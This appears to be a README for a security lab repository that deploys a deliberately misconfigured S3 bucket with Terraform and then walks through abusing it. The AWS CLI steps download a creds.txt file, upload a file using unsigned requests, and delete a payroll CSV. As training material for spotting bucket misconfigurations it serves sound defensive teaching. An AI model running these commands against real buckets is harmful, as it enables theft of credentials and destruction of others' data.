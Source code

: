 # S3 Misconfiguration

## please install the below cli tools 

* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd /s3misconfiguration
```
* Step : Initialise terraform 

```bash
terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attacks

* Step 7: Lets first download the fishy files 

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/we45-abhi/seasides/

```

* Step 8: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we can figure out that all sensitive data has been compromised and due to misconfiguration of bucket we have a complete control of the bucket


 
